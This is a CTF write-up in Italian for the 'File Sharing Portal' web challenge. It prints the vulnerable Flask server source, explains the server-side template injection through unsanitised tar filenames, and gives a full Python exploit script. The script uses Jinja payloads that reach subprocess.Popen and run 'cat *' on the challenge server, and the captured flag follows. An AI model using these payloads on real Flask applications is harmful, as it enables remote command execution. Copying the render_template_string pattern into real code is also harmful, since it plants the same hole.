 +++
title = 'File Sharing Portal'
tags = [
  "Web",
  "Python",
  "Template Injection",
  "498 points",
  "119 solves",
  "NoobMaster + NoobHacker"
]
date = 2024-08-06T11:27:07+02:00
draft = true
+++

<h1 style='text-decoration: underline;text-decoration-color: #9e8c6c;font-size: 3em;'>File Sharing Portal</h1>

**Descrizione**: Benvenuti nel portale di condivisione dei file! Supportiamo solo file tar!

## Introduction

Il ctf ha una struttura molto semplice: abbiamo un form in cui ci viene chiesto di inserire un file [tar](https://en.wikipedia.org/wiki/Tar_(computing)); una volta inserito il file tar, questo viene decompresso e ci viene mostrato il `nome` dei file che contiene; cliccando sui diversi file, possiamo leggerne il contenuto.

## Source

**Il sorgente ha commenti aggiunti in seguito per consentire una migliore comprensione del codice nei writeup**

```python
# filename: server.py

#!/usr/bin/env python3
from flask import Flask, request, redirect, render_template, render_template_string
import tarfile
from hashlib import sha256
import os
app = Flask(__name__)

@app.route('/',methods=['GET','POST'])
def main():
    # Questa funzione si occupa principalmente di caricare il file tar nel file system del server.
    global username
    if request.method == 'GET':
        return render_template('index.html')
    elif request.method == 'POST':
        file = request.files['file']
        if file.filename[-4:] != '.tar': # Verificare che il file passato sia effettivamente un file tar
            return render_template_string("<p> We only support tar files as of right now!</p>") # Altrimenti, viene visualizzato un messaggio di errore
        name = sha256(os.urandom(16)).digest().hex() # Crea un nome casuale che verrà utilizzato per denominare il tar e la cartella nel file system del server.
        os.makedirs(f"./uploads/{name}", exist_ok=True) # Crea la directory
        file.save(f"./uploads/{name}/{name}.tar") # Salva il file tar
        try:
            # Estrae il file tar
            tar_file = tarfile.TarFile(f'./uploads/{name}/{name}.tar')
            tar_file.extractall(path=f'./uploads/{name}/')
            return render_template_string(f"<p>Tar file extracted! View <a href='/view/{name}'>here</a>")
        except:
            return render_template_string("<p>Failed to extract file!</p>")

@app.route('/view/<name>')
def view(name):
    # Questa funzione visualizza i file contenuti nel file .tar
    if not all([i in "abcdef1234567890" for i in name]): # Controllare che il nome del file sia in esadecimale, per evitare qualsiasi tipo di input dannoso. 
        return render_template_string("<p>Error!</p>")
        #print(os.popen(f'ls ./uploads/{name}').read())
            #print(name)
    files = os.listdir(f"./uploads/{name}") # Elenca tutti i file presenti nella cartella precedentemente creata 
    out = '<h1>Files</h1><br>'
    files.remove(f'{name}.tar')  # Rimuove il file tar dall'elenco
    for i in files:
        out += f'<a href="/read/{name}/{i}">{i}</a>' # Mostra tramite modelli tutti i nomi dei file
       # except:
    return render_template_string(out) # Renderizzare il modello con la funzione render_template_string

@app.route('/read/<name>/<file>')
def read(name,file):
    # La funzione mostra il contenuto del singolo file
    if (not all([i in "abcdef1234567890" for i in name])): # Controllare che il nome del file sia in esadecimale, per evitare qualsiasi tipo di input dannoso. 
        return render_template_string("<p>Error!</p>")
    if ((".." in name) or (".." in file)) or (("/" in file) or "/" in name):  # Altri controlli per evitare l'errore di percorso
        return render_template_string("<p>Error!</p>")
    f = open(f'./uploads/{name}/{file}') # Apre il file
    data = f.read()
    f.close()
    return data # Ritorna il contenuto del file

if __name__ == '__main__':
    app.run(host='0.0.0.0', port=1337)


```

Si può quindi notare che ci sono diversi controlli sui parametri e, in un primo momento, si potrebbe pensare che il codice sia sicuro al 100%.

## Solution

La prima cosa che ci è venuta in mente è stata quella di creare un [link simbolico](https://www.futurelearn.com/info/courses/linux-for-bioinformatics/0/steps/201767) per accedere alla flag, e in effetti questo funziona (provate con server.py), il problema è che il nome del file della flag è sconosciuto e questo non ci permette di creare un link simbolico valido.

Una volta capito questo, abbiamo fatto un'analisi approfondita del codice e siamo giunti alla conclusione che l'unica cosa che non veniva controllata era il nome del file tar scompattato, consentendoci di inserire qualsiasi cosa. Combinando questo con la funzione `render_template_string` (una funzione vulnerabile di flask), è possibile eseguire una [template injection](https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection#what-is-ssti-server-side-template-injection).

```python
# filename: exploit.py

import requests
import os
import tarfile
from bs4 import BeautifulSoup

url = 'http://redacted.challs.n00bzunit3d.xyz:8080/'


def create_tar(tar_name, file):
    with tarfile.open(tar_name, 'w') as tar:
        tar.add(file, arcname=os.path.basename(file))
    print(f'Tar file created: {tar_name}')


def create_payload(payload):
    with open(payload, 'w') as f:
        f.write('Remember to byte the cookies')

    create_tar('exploit.tar', payload)
    print(f'Payload created: {payload}')


def get_url_view(text):
    soup = BeautifulSoup(text, 'html5lib')
    return [a['href'] for a in soup.find_all('a', href=True)][0]


def leak_subprocess_index():
    payload = "{{int.__class__.__base__.__subclasses__()}}"
    create_payload(payload)

    r = requests.post(url, files={'file': open('exploit.tar', 'rb')})

    url_file = get_url_view(r.text)
    r = requests.get(url + url_file)
    text = r.text[r.text.index('[')+1:]

    list_classes = text.split(',')

    for i, c in enumerate(list_classes):
        if 'subprocess.Popen' in c:
            print(f'Index subprocess.Popen: {i}')
            return str(i)


def get_flag(index):
    payload = "{{int.__class__.__base__.__subclasses__()[" + \
        index + "]('cat *', shell=True, stdout=-1).communicate()}}"
    create_payload(payload)

    r = requests.post(url, files={'file': open('exploit.tar', 'rb')})

    url_file = get_url_view(r.text)
    r = requests.get(url + url_file)

    flag = r.text[r.text.index('n00bz{'):r.text.index('}')+1]
    print(f'Flag: {flag}')


def main():
    subprocess_index = leak_subprocess_index()
    get_flag(subprocess_index)


if __name__ == '__main__':
    main()


```

```stdout
flag: n00bz{n3v3r_7rus71ng_t4r_4g41n!_b3506983087e}
```

<p align='right'>Author: akiidjk </p>
